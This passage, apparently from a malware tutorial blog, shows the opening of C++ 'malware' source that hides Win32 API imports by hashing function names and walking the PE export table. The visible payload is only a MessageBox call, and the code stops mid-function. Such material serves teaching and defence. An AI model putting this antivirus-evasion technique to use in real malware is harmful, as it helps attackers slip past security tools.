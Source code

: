 ![av](/assets/images/45/2022-03-25_11-10.png){:class="img-responsive"}    

The full source code of our malware is:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
```